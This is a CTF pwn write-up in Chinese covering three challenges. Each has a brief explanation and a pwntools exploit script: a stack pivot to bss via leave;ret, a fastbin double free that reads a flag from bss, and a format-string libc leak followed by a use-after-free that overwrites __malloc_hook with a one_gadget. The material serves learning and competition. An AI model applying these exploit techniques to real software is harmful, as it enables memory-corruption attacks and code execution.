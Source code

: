 ### borrowstack

用 `leave_ret` 栈迁移到 bss 段，需要注意的是栈从高地址向低地址生长，需要留足够的 `offset` 确保迁移之后填的 payload 不会覆盖到下面的 got 表。我直接把 payload 长度加起来留了一些余量作为 `offset`，实际上这里的 `offset` 甚至可以爆破出来。

```python
leave_ret = 0x400699
bank = 0x601080
pop_rdi = 0x400703
offset = 0xa0

payload = flat('a'*0x60,bank+offset,leave_ret)
sa('want\n',payload)
payload = flat('a'*offset,bank+offset,pop_rdi,elf.got['puts'],elf.plt['puts'],elf.sym['main'])
sa('now!\n',payload)

base = uu64(r(6)) - libc.sym['puts']
leak('base',base)
one = base + 0x4526a

payload = flat('a'*0x60,'a'*8,one)
sa('want\n',payload)
sa('now!\n','a')
```

### some_thing_exceting

每次申请创建三个堆块，其中一个是结构体指针两个是字符串。而释放时没有置 NULL，利用 double free 就可以修改其中一个字符串 chunk 的 fd 指针，指向已经在 bss 段上的 flag。不过对应位置的伪造 `size` 字段为 `0x60`，因此为了通过 fastbin 检查需要使用 0x50 的字符串 chunk。

```python
flag = 0x6020a8
add(0x60,0x50)
add(0x60,0x50)
add(0x60,0x50)
free(0)
free(1)
free(0)
add(0x50,0x50,p64(flag-0x10))
add(0x50,0x50)
show(1)
```

### some_thing_interesting

和上题不同的是没有 flag 在 bss 段了，但是多出了一个检查 code 的选项，该函数内存在格式化字符串漏洞。测出偏移为 17，泄露 libc。

随后，由于本题的 `edit` 函数是可以用的，我们不需要 double free 了，直接 uaf 就可以修改 `__malloc_hook` 为 `one_gadget` 了。

```python
code = 'OreOOrereOOreO'
sla(':',code+'%17$p')
sla(':','0')
ru(code)
base = int(ru('\n'),16) - 0x20830
leak('base',base)

add(0x60,0x60)
add(0x60,0x60)
free(1)
free(2)
edit(1,p64(base+libc.sym['__malloc_hook']-0x23))
add(0x60,0x60)
add(0x60,0x60)
edit(4,'a'*0x13+p64(base+0xf1147))

```